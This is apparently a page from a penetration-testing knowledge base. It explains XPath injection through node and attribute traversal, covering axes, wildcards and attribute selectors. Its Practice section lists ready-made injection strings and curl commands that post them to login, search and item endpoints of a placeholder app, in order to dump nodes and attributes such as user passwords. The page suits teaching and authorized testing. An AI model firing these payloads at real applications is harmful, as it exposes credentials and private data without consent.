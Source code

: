 ```yaml
---
title: Exploiting Node and Attribute Traversal via XPath
description: Learn techniques to exploit XPath Injection for unauthorized XML data
  access via node and attribute traversal.
keywords:
- XPath Injection
- node traversal
- attribute extraction
- XML data access
- axis manipulation
- XPath wildcard
- XML enumeration
---
```


# Node and Attribute Traversal

## Context

Node and Attribute Traversal refers to an exploitation technique used in XPath injection attacks to unauthorizedly access XML data. This attack vector leverages weaknesses in the way applications handle user input in XPath queries, opening channels for attackers to extract arbitrary nodes and attributes. This guide assumes knowledge of XPath syntax, XML structure, web application architecture, and fundamental XPath Injection techniques.

## Theory

### XPath Traversal Fundamentals

XPath traversal exploits the power of axes and wildcards to navigate XML nodes beyond the intended scope of queries. By injecting crafted XPath expressions, attackers can enumerate, select, and extract nodes and attributes not supposed to be accessible. Such vulnerabilities exist when applications improperly expose user input to XPath queries without proper sanitization, making them susceptible to traversal attacks.

### Node Set Access via XPath Axes

XPath axes, including `child`, `parent`, `ancestor`, `descendant`, `following`, and `preceding`, define the node relationships facilitating traversal through the XML structure. Attackers inject axis-based expressions such as `//*` or `ancestor::` to enumerate or access hidden nodes. The strategic use of wildcards, like `//`, `*`, and `@*`, bypasses restrictive filters that limit access to particular node names.

### Attribute Extraction Techniques

XPath attribute selectors, denoted as `@attribute` or `@*`, enable attackers to extract values directly from node attributes. An injection such as `//@*` or `//user/@password` allows enumeration of sensitive attributes across the XML document, potentially exposing critical data.

### Axis Manipulation for Deep Traversal

Axis manipulation involves targeting node relationships such as `parent`, `ancestor`, and `descendant` to traverse up or down the XML tree. By injecting expressions like `parent::node()`, `ancestor::*`, and `descendant::*`, attackers can perform lateral or vertical movement within the XML structure, greatly expanding their reach beyond initially accessible data nodes.

## Practice

### Manual Node Enumeration via XPath Injection

- **Inject a universal node selector to enumerate all nodes:**

    ```xml
    ' or 1=1 or 'a'='a' or //node() | //*
    ```

- **Send a crafted payload to extract all user nodes and their attributes:**

    ```bash
    curl -X POST -d "username=' or 1=1 or //user/* | //user/@*" http://target-app/login
    ```

  Using this injection payload, an attacker can retrieve unauthorized XML nodes and attribute values.

### Attribute Extraction with Wildcards

- **Inject an attribute wildcard to extract all attribute values in the XML:**

    ```xml
    ' or //@* or 'a'='a'
    ```

- **Submit the payload to trigger attribute extraction:**

    ```bash
    curl -X POST -d "search=' or //@* or 'a'='a" http://target-app/search
    ```

  This technique allows attackers to obtain all attribute values from the XML document, potentially compromising sensitive information.

### Axis Manipulation for Parent/Ancestor Traversal

- **Target parent and ancestor axes to traverse upwards in the XML tree:**

    ```xml
    ' or parent::node() or ancestor::* or 'a'='a'
    ```

- **Attempt to access parent or ancestor nodes of the queried element:**

    ```bash
    curl -X POST -d "id=' or parent::node() or ancestor::* or 'a'='a" http://target-app/item
    ```

  Through this method, attackers gain access to data from parent or ancestor nodes that are not intended for exposure.

## Tools

- **curl**
- **Burp Suite**